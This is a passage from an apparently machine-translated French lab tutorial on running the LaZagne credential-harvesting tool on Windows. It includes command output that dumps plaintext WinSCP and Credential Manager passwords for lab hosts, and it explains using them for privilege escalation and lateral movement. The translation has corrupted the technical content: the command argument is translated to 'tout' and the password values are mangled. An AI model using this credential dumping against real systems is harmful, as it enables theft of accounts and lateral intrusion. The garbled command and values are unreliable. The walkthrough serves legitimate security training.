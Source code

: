 ```
   -h, --help affiche ce message d'aide et quitte
   -version laZagne version

```

#### Exécution de tous les modules LaZagne

Comme nous pouvons le constater, de nombreux modules s'offrent à nous. L'exécution de l'outil avec `all` recherchera les applications prises en charge et renverra toutes les informations d'identification en texte clair découvertes. Comme nous pouvons le voir dans l'exemple ci-dessous, de nombreuses applications ne stockent pas les informations d'identification de manière sécurisée (mieux vaut ne jamais stocker les informations d'identification, point final !). Ils peuvent facilement être récupérés et utilisés pour élever les privilèges localement, passer à un autre système ou accéder à des données sensibles.

Exécution de tous les modules LaZagne

```
PS C:\htb> .\lazagne.exe tout

|================================================ ===================|
| |
| Le Projet LaZagne |
| |
| ! BANG BANG !|
| |
|================================================ ===================|

########## Utilisateur : jordan ##########

------------------- Mots de passe Winscp -----------------

[+] Mot de passe trouvé !!!
URL : transfer.inlanefreight.local
Connexion : racine
Mot de passe : été 2020 !
Port : 22

------------------- Mots de passe Credman -----------------

[+] Mot de passe trouvé !!!
URL : dev01.dev.inlanefreight.local
Connexion : jordan_adm
Mot de passe: ! Q AZ z a q 1

[+] 2 mots de passe ont été trouvés.

Pour plus d'informations, relancez-le avec l'option -v

temps écoulé = 5,50499987602

```
